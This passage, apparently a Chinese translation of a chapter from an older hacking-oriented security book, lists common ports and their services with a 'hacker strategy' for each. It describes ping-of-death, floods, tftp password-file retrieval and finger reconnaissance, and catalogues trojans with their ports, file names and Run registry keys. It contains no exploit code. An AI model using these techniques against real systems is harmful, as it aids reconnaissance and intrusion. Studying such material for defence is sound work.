| 315 | load | 750 | kerberos |
| 500 | sytek | 751 | kerberos_mast |
| 512 | biff | 752 | passwd_server |
| 513 | who | 753 | userreg_serve |

### 端口：7

**服务：** echo

**黑客策略**：该端口与通信中的某个模块或发送回给发送方的（回声）信号相关，该信号与原始信号不同。将消息回传给主计算机有助于测试网络连接。主要执行的消息生成实用程序称为 PING，它是 Packet Internet Groping（分组互联网探查）的缩写。端口 7 的回声服务的关键问题在于试图处理超大分组系统的处理。一种针对易受回声过载影响的变体是通过发送长度超过 65,536 字节的分片段分组，导致系统错误地处理该分组，从而可能导致系统停止或重启。这个问题通常被称为“死亡之 Ping”攻击。针对端口 7 的另一种常见偏离行为被称为“Ping 洪水”。它也利用了计算机的响应性，通过持续轰炸 Ping 或 ICMP 回声请求来过载和拥塞系统资源和网络段。（我们将在本书的后文中详细介绍这些技术和相关软件。）ICMP 回声请求的示例如图 4.1 所示。

```
C:\>ping TigerTools.net

Pinging TigerTools.net [207.155.252.91] with 32 bytes of data:

Reply from 207.155.252.91: bytes=32 time=176ms TTL=245
Reply from 207.155.252.91: bytes=32 time=176ms TTL=245
Reply from 207.155.252.91: bytes=32 time=176ms TTL=245
Reply from 207.155.252.91: bytes=32 time=176ms TTL=245

Ping statistics for 207.155.252.91:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
    Approximate round trip times in milli-seconds:
    Minimum = 113ms, Maximum = 176ms, Average = 135ms
```


### 端口：11

**服务：** systat

**黑客策略**：该服务旨在显示机器当前运行进程的状态。本质上，与该服务关联的守护进程揭示了当前正在运行的软件类型，并让人了解目标主机上的用户身份。

### 端口：15

**服务：** netstat

**黑客策略**：其操作类似于端口 11，该服务旨在显示机器的活动网络连接以及有关网络子系统的其他有用信息，例如协议、地址、套接字连接和 MTU 大小。标准 Windows 系统的常见输出将显示图 4.2 中的内容。

| Proto | Local Address | Foreign Address | State |
| :--- | :--- | :--- | :--- |
| TCP | pavilion:135 | PAVILION:0 | LISTENING |
| TCP | pavilion:1025 | PAVILION:0 | LISTENING |
| TCP | pavilion:1035 | PAVILION:0 | LISTENING |
| TCP | pavilion:1074 | PAVILION:0 | LISTENING |
| TCP | pavilion:138 | PAVILION:0 | LISTENING |
| TCP | pavilion:nbssession | PAVILION:0 | LISTENING |
| TCP | pavilion:137 | PAVILION:0 | LISTENING |
| TCP | pavilion:138 | PAVILION:0 | LISTENING |
| TCP | pavilion:nbssession | PAVILION:0 | LISTENING |
| TCP | pavilion:137 | PAVILION:0 | LISTENING |
| TCP | pavilion:138 | PAVILION:0 | LISTENING |
| TCP | pavilion:nbssession | PAVILION:0 | LISTENING |
| TCP | pavilion:1035 | *: | |
| TCP | pavilion:1074 | *: | |
| TCP | pavilion:nbname | *: | |
| TCP | pavilion:nbdatagram | *: | |
| TCP | pavilion:nbname | *: | |
| TCP | pavilion:nbdatagram | *: | |
| TCP | pavilion:nbname | *: | |
| TCP | pavilion:nbdatagram | *: | |

**图 4.2** 标准 Windows 系统的 Netstat 输出。

### 端口：19

**服务：** chargen

**黑客策略**：端口 19 及其对应的服务守护进程 chargen 看起来相当无害。该服务的基本操作可以很容易地从其作为*字符流生成器*的角色中推断出来。不幸的是，该服务容易受到 telnet 连接的漏洞利用，该连接可以生成一串字符，并将输出重定向到例如端口 53（域名服务（DNS））的 telnet 连接。在此示例中，字符洪水导致 DNS 服务出现访问违规错误，进而终止该服务，从而导致名称解析服务中断。

### 端口：20、21

**服务：** 分别为 FTP-data、FTP

**黑客策略**：继承到端口 20 和 21 的服务为文件传输协议（FTP）提供可操作性。若要存储文件或从 FTP 服务器接收文件，必须同时使用独立的数据连接。此数据连接通常通过端口 20 FTP-data 发起。在标准操作过程中，文件传输控制术语是通过端口 21 规定的。该端口通常被称为控制连接，基本用于发送命令和接收关联的回复。与 FTP 相关的属性包括复制、更改和删除文件和目录的能力。第 5 章介绍了用于隐蔽控制系统文件和目录的漏洞利用技术和隐身软件。

### 端口：23

**服务：** telnet

**黑客策略**：与端口 23 对应的服务通常被称为远程登录的 Internet 标准协议。运行在 TCP/IP 之上的 telnet 充当远程登录会话的终端模拟器。根据预配置的安全设置，该守护程序通常可以并确实提供了某种控制操作系统访问权限的方式。向某些 Telnet 变体上传特定的黑客脚本条目可能会导致缓冲区溢出，在某些情况下，还可获得管理员或 root 访问权限。例如 TigerBreach Penetrator（如图 4.3 所示），它是 TigerSuite 的一部分，包含在随本书附带的 CD 中，并在第 12 章中更全面地介绍。

### 端口：25

**服务：** SMTP

**黑客策略**：简单邮件传输协议（SMTP）最常用于 Internet 中定义邮件的传输方式。SMTP 守护程序默认在端口 25 上监听传入邮件，然后将消息复制到相应的邮箱中。如果无法投递消息，则包含不可投递消息开头的错误报告将返回给发送者。建立到端口 25 的 TCP 连接后，作为客户端操作的发送机器等待作为服务器操作的接收机器发送一行文本，给出其身份并告知其是否准备好接收邮件。由于 TCP 的可靠字节流（如前几章所述），通常不需要校验和。当所有邮件交换完成后，连接释放。与 SMTP 相关的最常见漏洞包括*邮件轰炸*、*垃圾邮件*以及众多*拒绝服务*（DoS）攻击。这些利用将在本书的后文中详细描述。


## 端口：43
### 服务：Whois

**黑客策略：** Whois 服务（http://rs.Internic.net/whois.html）是一个基于 TCP 43 端口的请求/响应事务守护进程，运行在少数特定的中心机器上。它为本地和/或互联网用户提供全网目录服务。许多站点维护本地的 Whois 目录服务器，其中包含关于特定域名下的个人、部门和服务的信息。该服务是安全分析中探测阶段核心步骤的组成部分之一，黑客、破解者、电话欺诈者（phreaks）和网络朋克（cyberpunks）以及虎队（tiger teams）都会执行此操作。最常用的 Whois 数据库可以从 InterNIC 进行查询，如图 4.4 所示。



图 4.3 TigerBreach 渗透测试工具运行场景。



图 4.4 可以查询最流行的 Whois 数据库。

## 端口：53
### 服务：domain

**黑客策略：** 域名是一个基于字符的句柄，用于标识一个或多个 IP 地址。该服务的存在仅仅是因为字母形式的域名比 IP 地址更易于记忆。域名服务（DNS）将这些域名转换回它们各自的 IP 地址。如前几章所述，在互联网中传输的数据报使用地址，因此每次指定域名时，DNS 服务守护进程都必须将该名称转换为对应的 IP 地址。基本上，当在浏览器中输入一个域名，例如 TigerTools.net 时，DNS 服务器会将这个字母形式的域名映射为一个 IP 地址，用户随后会被转发到该 IP 地址以查看网站。最近，关于 DNS 欺骗的调查非常广泛。欺骗性的 DNS 缓存服务器为攻击者提供了将访客转发到非目标网站的手段。对 DNS 服务器守护进程的另一种常见攻击源自于拒绝服务（DoS）溢出，导致资源无法使用。标准 DNS 查询的示例如图 4.5 所示。



图 4.5 标准 DNS 查询的输出。

## 端口：67
### 服务：bootp

**黑客策略：** bootp 互联网协议允许无盘工作站发现其自身的 IP 地址。此过程由网络上的 bootp 服务器控制，响应于工作站的硬件或 MAC 地址。bootp 的主要弱点在于一个容易遭受缓冲区溢出攻击的内核模块，这会导致系统崩溃。虽然大多数报告的情况为本地或内部尝试，但许多仍在运行且可从互联网访问的旧系统仍然易受攻击。

## 端口：69
### 服务：tftp

**黑客策略：** 端口 69 的简单文件传输协议（tftp）服务常被用于将互联网操作系统（IOS）加载到各种路由器和交换机中，它运行作为比 FTP 更简单的形式。简而言之，tftp 是一个用于传输文件的非常简单协议。tftp 还被设计为适应只读存储器（ROM），并用于无盘系统的引导过程。tftp 数据包没有身份验证机制；由于 tftp 是为引导过程设计的，因此不可能提供用户名和密码。由于各种守护程序变体中存在这些缺陷，简单的技术使得互联网上的任何人都可以检索世界可读文件的副本，例如 /etc/passwd（密码文件），以进行解密。



**图 4.6** 成功的 finger 查询输出。

## 端口：79
### 服务：finger

**黑客策略：** 当电子邮件账户被“finger”时，它会返回有关该账户的有用探测信息。尽管返回的信息因守护程序和账户而异，但在某些系统中，finger 会报告用户当前是否处于会话中。其他系统返回的信息包括用户的姓名、地址和/或电话号码。finger 过程相对简单：finger 客户端向此端口发起主动打开连接，并发送包含登录数据的一行查询。服务器处理查询，返回输出并关闭连接。从端口 79 接收到的输出被认为高度敏感，因为它可能揭示用户的详细信息。分析过程中“探测：finger”阶段的示例输出如图 4.6 所示。实际数据已进行掩码处理以保护用户匿名性。

## 端口：80
### 服务：http

**黑客策略：** HTTP 是超文本传输协议（Hypertext Transfer Protocol）的缩写，是互联网万维网（WWW）的底层协议。该协议定义了消息的格式化和传输方式，并且作为一个无状态协议运行，因为每个命令都是独立执行的，不包含对先前命令的任何知识。该守护程序运行的最佳示例是当在浏览器中输入网站地址（URL）时。在底层，这实际上是向 Web 服务器发送一个 HTTP 命令，指示其提供或传输请求的 Web 页面给 Web 浏览器。该特定守护程序变体的主要漏洞是网页篡改。著名黑客网站 www.2600.com/hacked_pages 上的一个例子展示了被“篡改”的美国军队主页（见图 4.7）。

## 端口：109, 110
### 服务：分别为 pop2, pop3

**黑客策略：** 邮局协议（POP）用于从邮件服务器守护程序检索电子邮件。历史上，有两个众所周知的 POP 版本：早期的 POP2（20 世纪 80 年代）和较新的 POP3。这两个变种的主要区别在于，POP2 需要一个 SMTP 服务器守护程序，而 POP3 可以单独使用。POP 基于客户端/服务器拓扑结构，其中电子邮件由邮件服务器接收并保存，直到客户端软件登录并提取消息为止。大多数 Web 浏览器在其软件设计中集成了 POP3 协议，例如 Netscape 和 Microsoft 浏览器。POP 设计集成中的漏洞允许远程攻击者登录，并且即使在特定 POP3 账户密码被修改后，也可以通过端口 110 的 telnet 直接连接到这些守护程序的操作系统的其他部分。另一种常见漏洞是在黑客分析的探测阶段出现的，通过直接 telnet 到目标邮件系统的端口 110，可以揭示关键信息，如图 4.8 所示。

## 端口：111, 135
### 服务：分别为 portmap, loc-serv

**黑客策略：** portmap 守护程序将 RPC 程序号转换为端口号。当 RPC 服务器启动时，它会向 portmap 守护程序注册。服务器告知守护程序其监听的端口号以及它服务的 RPC 程序号。因此，portmap 守护程序知道主机上每个已注册端口的位置，以及这些端口上可用的哪些程序。Loc-serv 是 NT 的 RPC 服务。如果不过滤 portmap，如果入侵者使用特定参数并提供客户端的地址，他或她将收到其 NIS 域名。基本上，如果攻击者知道 NIS 域名，可能会获取密码文件的副本。



图 4.7 被“篡改”的美国军队主页。


图 4.8 Telnetting 可以揭示关键的系统探测信息。

## 端口：137, 138, 139
### 服务：分别为 nbname, nbdagrem, nbsession

**黑客策略：** 端口 137 nbname 用作 DNS 的替代名称解析，有时被称为 WINS 或 NetBIOS 名称服务。运行基于 TCP/IP 的 NetBIOS 协议的节点使用从 UDP 端口 137 发送和接收的 UDP 数据包进行名称解析。该协议的漏洞归因于其缺乏身份验证。任何机器都可以响应任何名称的广播查询，即使是通过欺骗，抢先于合法的名称持有者做出响应。基本上，nbname 用于广播解析，nbdagrem 与其他 NBT 信息的类似广播发现进行交互，而 nbsession 是进行所有点对点通信的地方。在 Windows 工作站上执行 netstat -a 命令的示例（见图 4.9）将确认这些活动并揭示潜在的木马感染。

```
C:\>netstat -a

**Active Connections**

Proto | Local Address | Foreign Address | State
---|---|---|---
TCP | pavilion:1025 | PAVILION:0 | LISTENING
TCP | pavilion:3703 | PAVILION:0 | LISTENING
TCP | pavilion:3707 | PAVILION:0 | LISTENING
TCP | pavilion:3724 | PAVILION:0 | LISTENING
TCP | pavilion:3725 | PAVILION:0 | LISTENING
TCP | pavilion:4080 | PAVILION:0 | LISTENING
TCP | pavilion:pop3 | PAVILION:0 | LISTENING
TCP | pavilion:nbsession | PAVILION:0 | LISTENING
```

**图 4.9** netstat -a 命令的示例输出。

## 端口：144
### 服务：news

**黑客策略：** 端口 144 是网络可扩展窗口系统（news），其本质上是由 Sun Microsystems 开发的一种基于旧 PostScript 的窗口系统。它是一个具有在屏幕上绘制和处理输入事件（包括面向对象编程元素）扩展的多线程 PostScript 解释器。由于开发用于 UNIX 的标准窗口系统存在局限性，地下消息表明黑客目前正在努力利用该服务的基本缺陷。

## 端口：161, 162
### 服务：分别为 snmp, snmp-trap

**黑客策略：** 简而言之，简单网络管理协议（snmp）指挥网络设备的管理和监控。snmp 操作由称为*协议数据单元*（PDUs）的消息组成，这些消息被发送到网络的不同部分。snmp 设备被称为*代理*（agents）。这些组件在*管理信息库*（MIBs）中存储关于它们自己的信息，并将此数据返回给 snmp 请求者。UDP 端口 162 被指定为端口通知接收者应监听 snmp 通知消息的端口。就所有目的而言，此端口用于发送和接收 snmp 事件报告。由这些端口控制的交互式通信使其成为探测和重新配置的诱人目标。

## 端口：512


## 端口：512

**服务：** exec

**黑客策略：** 端口 512 的 exec 服务由 `rexec()` 用于远程进程执行。当此端口处于活动或监听状态时，远程执行服务器通常被配置为自动启动。通常，这表明当前正在运行 X-Windows。如果没有适当的保护措施，窗口显示可能被截取或监视，用户的按键可能被窃取，且程序可能被远程执行。作为补充说明，如果目标系统正在运行此服务守护进程，并接受到 6000 端口的 telnet 连接，那么具备发起拒绝服务（DoS）攻击以冻结系统所需的条件。

### 端口：513, 514

**服务：** 分别为 login, shell

**黑客策略：** 这些端口被视为“特权”端口，因此成为了众多 UNIX 变体中地址欺骗攻击的目标。端口 514 也被 `rsh` 使用，充当一个无日志记录的交互式 shell。正如前文所述，这些服务的存在证实了活动 X-Windows 守护进程的存在。使用传统方法，一个简单的 telnet 连接即可验证连接建立，如图 4.10 所示的尝试。实际数据为了保持目标匿名而被掩码处理。



**图 4.10** 使用 telnet 成功验证开放端口。

### 端口：514

**服务：** syslog

**黑客策略：** 作为内部日志系统的一部分，端口 514（可通过前端保护屏障进行远程访问）是各种类型拒绝服务（DoS）攻击的公开邀请。一个简单的 UDP 扫描模块即可验证此端口的潜在漏洞。

### 端口：517, 518

**服务：** 分别为 talk, ntalk

**黑客策略：** Talk 守护进程是交互式通信程序，遵循旧的和新版的 talk 协议（端口 517 和 518），支持与另一台 UNIX 站点进行实时文本对话。这些守护进程通常由一个 talk 客户端和服务器组成，在实际应用中，它们可以在同一系统上同时处于活动状态。在大多数情况下，从端口 518 启动的新版 talk 守护进程与旧版本不向后兼容。虽然这看起来无害，但很多时候并非如此。除了显而易见的——知道这种连接建立通过随机端口设置 TCP 连接——这些服务暴露于多种远程攻击之下。

### 端口：520

**服务：** route

**黑客策略：** 一种称为*动态路由*的路由过程发生在路由器与相邻或邻近路由器进行通信时，相互告知每个路由器当前熟悉哪些网络。这些路由器使用路由协议进行通信，该服务源于路由守护进程。根据协议不同，路由器之间来回传递的更新由特定端口发起。最流行的路由协议之一，路由信息协议（RIP），通过 UDP 端口 520 进行通信。许多专有路由守护进程也继承了从此端口进行的通信。为了辅助目标发现，捕获关键拓扑信息非常容易，几乎任何嗅探器都能做到。

### 端口：540

**服务：** uucp

**黑客策略：** UNIX-to-UNIX Copy Protocol (UUCP) 涉及一套用于在不同 UNIX 系统之间传输文件的 UNIX 程序，但更重要的是，用于传输要在另一系统上执行的命令。尽管 UUCP 已被 FTP 和 SMTP 等其他协议取代，但许多系统在日常系统管理中仍分配了活跃的 UUCP 服务。在多种 UNIX 变体的各种服务守护进程中，存在漏洞，允许受控用户提升 UUCP 权限。

### 端口：543, 544, 750

**服务：** klogin, kshell, kerberos

**黑客策略：** 由这些端口启动的服务代表一种名为 Kerberos 的认证系统。该服务的核心理念涉及使两方能够跨越开放或不安全的网络路径交换私密信息。本质上，该方法通过为每个用户分配唯一的密钥或票据来运作。然后，票据嵌入消息中用于识别和认证。如果没有在网络范围内采取必要的过滤技术，这些端口容易受到多种远程攻击，包括缓冲区溢出、欺骗、掩码会话和票据劫持。

## 未识别的端口和服务

渗透黑客程序通常被设计为故意在系统安全中集成后门或漏洞。尽管这些服务守护进程的意图并不总是具有威胁性，但攻击者可以且确实会操纵这些程序以用于恶意目的。本节概述的软件被分为三个相互关联的类别：*病毒*、*蠕虫*和*特洛伊木马*。此处简要定义，书中后文将更详细地讨论。

- 病毒是一种通过利用（因此需要）宿主程序来复制自身的计算机程序。
- 蠕虫不需要宿主，因为它自我维持。蠕虫在感染时，以预定的高速率编译并分发自身的完整副本。
- 特洛伊木马（或简称木马）是一种包含破坏性代码的程序，其外观像正常有用的程序，例如网络实用工具。

> **黑客提示**
> 本节描述的绝大多数守护程序均可在此书的 CD 上或地下链接和资源库 Tiger Tools Repository 中找到，后者也在 CD 上。

以下端口和连接服务通常是目标受害者未曾察觉的，在渗透黑客攻击中最常实现。让我们通过活动端口、服务或软件守护进程以及黑客实施策略来探索这些渗透程序：

### 端口：21, 5400-5402

**服务：** Back Construction, Blade Runner, Fore, FTP 特洛伊木马, Invisible FTP, Larva, WebEx, WinCrash

**黑客策略：** 这些程序（如图 4.11 所示）共享端口 21，并通常模拟 FTP 的恶意变体，主要目的是启用不可见的文件上传和下载功能。其中一些程序包含客户端和服务器模块，大多数都与特定的注册表项关联。例如，Blade Runner 的常见变体安装在：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
```

### 端口：23

**服务：** Tiny Telnet Server (TTS)

**黑客策略：** TTS 是一个在受感染系统上以静默模式运行的终端仿真程序。守护进程接受标准 telnet 连接，从而允许执行命令，就好像命令是直接在站点上输入的一样。相关的命令条目源自特权或管理访问权限。该程序安装时会迁移到以下文件：`c:\windows\Windll.exe`。当前的相关注册表项可在以下位置找到：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
Windll.exe = "C:\\WINDOWS\\Windll.exe"
```



**图 4.11** Back Construction, Blade Runner, 和 WebEx 特洛伊木马。

### 端口：25, 110

**服务：** Ajan, Antigen, Email Password Sender, Haebu Coceda, Happy 99, Kuang2, ProMail 特洛伊木马, Shritzlitz, Stealth, Tapiras, Terminator, WinPC, WinSpy

**黑客策略：** 伪装成烟花显示或玩笑，这些守护程序使攻击者拥有系统密码、垃圾邮件发送、按键记录、DoS 控制以及远程或本地后门入口的能力。每个程序都使用了大量不同的文件名、内存地址空间和注册表项演变而来。幸运的是，唯一共同的常数仍然是尝试控制 TCP 端口 25。

### 端口：31, 456, 3129, 40421–40426

**服务：** Agent 31, Hackers Paradise, Masters Paradise

**黑客策略：** 通常利用端口 31 的恶意软件涵盖远程管理，如应用程序重定向以及文件、注册表的管理和操作（图 4.12 是通过目标服务浏览进行远程系统管理的示例）。一旦处于恶意控制之下，这些情况可能变得无法恢复。



**图 4.12** 成为端口 31 控制的受害者可能会带来损害。

### 端口：41, 999, 2140, 3150, 6670–6771, 60000

**服务：** Deep Throat

**黑客策略：** 此守护进程（如图 4.13 所示）具有许多功能，包括用于文件上传、下载和删除的静默 FTP 文件服务器。其他选项允许远程攻击者捕获并查看屏幕、窃取密码、打开 Web 浏览器、重启，甚至控制其他运行的程序和进程。

### 端口：59


**服务：DMSetup**

**黑客策略：** DMSetup 的设计初衷是通过匿名分发来影响 mIRC 聊天客户端。一旦执行，DMSetup 会安装在多个位置，导致启动文件混乱，并最终破坏 mIRC 设置。结果是，该程序会有效地将其自身传播给与受感染目标进行通信的任何用户。



**图 4.13** Deep Throat 远程控制面板。

**端口：79, 5321**

**服务：Firehotker**

**黑客策略：** 此程序是 Firehotker Backdoorz 的别名。该软件旨在作为远程控制管理后门实施自身，但已知其设计不稳定。更常见的是，守护进程仅仅消耗资源，导致内部拥塞。目前，没有注册表操作，只有文件 server.exe。

**端口：80**

**服务：Executor**

**黑客策略：** 这是一个极其危险的远程命令执行器，主要意图是破坏系统文件和设置（参见图 4.14）。该守护进程通常与文件 sxecc.exe 一起安装，位于以下注册表项下：

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\
<>Executor1="C:\windows\sxecc.exe"
```



**图 4.14** Executer 时刻准备破坏系统文件。

**端口：113**

**服务：Kazimas**

**黑客策略：** 这是一种在 mIRC 频道上自我传播的 IRC 蠕虫。它表现为一个大约 10 KB 大小的 milbug_a.exe 文件，并复制自身到以下目录：

- C:\WINDOWS\KAZIMAS.EXE
- C:\WINDOWS\SYSTEM\VSY.EXE
- C:\QC\PATCH.EXE
- C:\MIRC\NUKER.EXE
- C:\MIRC\DOWNLOAD\MIRC60.EXE
- C:\MIRC\LOGS\LOGGING.EXE
- C:\MIRC\SOUNDS\PLAYER.EXE
- C:\GAMES\SPIDER.EXE
- C:\WINDOWS\FREEMEM.EXE

该程序旨在破坏 mIRC 设置，并将其自身传播给与受感染目标进行通信的任何用户。



**图 4.15** Happy 99 烟花伪装。

**端口：119**

**服务：Happy 99**

**黑客策略：** 主要分布在美国的企业环境中，此程序伪装成漂亮的烟花显示（参见图 4.15），但在后台，此守护进程变体为攻击者提供系统密码、邮件垃圾轰炸、键盘记录、拒绝服务（DoS）控制以及后门入口。

**端口：121**

**服务：JammerKillah**

**黑客策略：** JammerKillah 是一个旨在终止 Jammer 程序的木马。执行后，守护进程会自动检测 Back Orifice 和 NetBus，然后部署一个 Back Orifice 服务器。

**端口：531, 1045**

**服务：Rasmin**

**黑客策略：** 该病毒使用 Visual C++ 开发，使用 TCP 端口 531（通常用作会议端口）。传闻称该守护进程旨在执行特定操作，在接收到其“主人”的命令之前保持休眠状态。研究表明，该程序已隐藏在以下文件名下：

- RASMIN.EXE
- WSPOOL.EXE
- WINSRVC.EXE
- INIPX.EXE
- UPGRADE.EXE

**端口：555, 9989**

**服务：Ini-Killer, NėTAdmin, phAse Zero（如图 4.16 所示）, Stealth Spy**

**黑客策略：** 除了提供间谍功能和文件传输外，这些木马最重要的目的是破坏目标系统。唯一的安全保障是，这些守护进程只有在主机上运行需要执行的安装程序时才能感染系统。



**图 4.16** 木马 phAse Zero 的一些功能。



**图 4.17** SatanZ 后门前端。

**端口：666**

**服务：Attack FTP, Back Construction, Cain & Abel, SatanZ 后门（前端如图 4.17 所示）, ServeU, Shadow Phyre**

**黑客策略：** Attack FTP 仅在端口 666 安装一个隐形 FTP 服务器，用于全权限文件上传/下载。Back Construction 的详情见端口 21 的黑客策略文档。Cain 旨在窃取密码，而 Abel 是用于隐形文件传输的远程服务器。迄今为止，该守护进程尚未已知能够自我复制。SatanZ 后门、ServeU 和 Shadow Phyre 因肮脏的隐藏远程访问守护进程而闻名，这些守护进程所需的系统资源极少。

**端口：999**

**服务：WinSatan**

**黑客策略：** WinSatan 是另一个连接到各种 IRC 服务器的守护进程，即使程序关闭，连接也会保持存在。



**图 4.18**

经过一些轻微调查，该程序会在后台运行，在任务管理器或当前进程列表中不留痕迹。似乎该软件的唯一目标是自我传播，造成内部拥塞和混乱。

**端口：1001**

**服务：Silencer, WebEx**

**黑客策略：** WebEx 的详情见端口 21 的黑客策略文档。Silencer 主要用于资源控制，因为它功能很少（参见图 4.18）。

**端口：1010-1015**

**服务：Doly 木马**

**黑客策略：** 这种木马因获得目标的完全远程控制而闻名（参见图 4.19），因此是一个极其危险的守护进程。据报道，该软件使用了多个不同的端口，传闻表明文件名可以被修改。当前的注册表项包括以下：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run for file task.exe.
```

